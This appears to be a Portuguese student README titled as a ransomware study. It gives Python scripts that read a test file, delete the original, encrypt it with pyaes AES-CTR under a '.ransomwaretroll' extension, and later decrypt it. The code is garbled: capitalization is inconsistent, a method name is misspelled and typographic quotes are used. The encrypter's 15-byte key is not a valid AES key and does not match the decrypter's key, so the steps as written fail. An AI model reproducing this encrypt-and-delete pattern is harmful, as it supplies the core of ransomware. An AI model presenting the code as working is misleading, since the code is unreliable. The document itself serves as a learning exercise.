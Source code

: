 # Estudo de Rasomware, encriptografando e descriptografando com Python

### Ferramentas

- Kali Linux
- pyaes


### Configuração do Arquivo Txt e do código Python no Kali Linux
Criar os Arquivos com o comando nano (usado para escrever/editar dentro de um arquivo) ou touch (usado para criar um arquivo) no terminal do Linux depois que estiver dentro da pasta “projeto-ransomware"



- encrypter.py

- decrypter.py

- teste.txt



### 2º ETAPA
Insira inforamções no documento ou identifique algum que já exista.

- Salvar com o ctrl + o;
- Depois de Enter;
- Depois Ctrl + x para salvar.


### 3º ETAPA
Verifique se possui as permissões para instalar a bibliteca Python com o comando:

- pip install pyaes

Depois prossiga com os comandos

- Import os
- Import pyaes


 
### Código para ecrypter.txt:

 
File­_name =‘teste.txt’

File = open(file_name, ‘rb’)

File_data = file.read()

File.close()

os.remove(file_name)

Key = b“testeransomware”

Aes = pyaes.AESModeOfOperationCTR(key)

Crypto_data = aes.encrypy(file_data)

new_file = file_name + ‘.ransomwaretroll'

new_file = open(f‘{new_file}’,‘wb’)

new_file.write(crypto_data)

new_file.close()

 

### Código para decrypter.txt:

file_name = ‘teste.txt.ransomwaretroll’

file = open(file_name, ‘rb’)

file_data = file.read()

file.close()

key = b‘testeransomwares’

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = ‘teste.txt’

new_file = open(f'{new_file}', ‘wb’)

new_file.write(decrypt_data)

new_file.close()

 
## ETAPA FINAL
Realizar os comandos de criptografar, listar arquivos (para ver o resultado), descriptografar abaixo e listar arquivos novamente (para ver o resultado final)

python encrypter.py

ls

python decrypter.py

ls

### Resutados anexados na pasta.
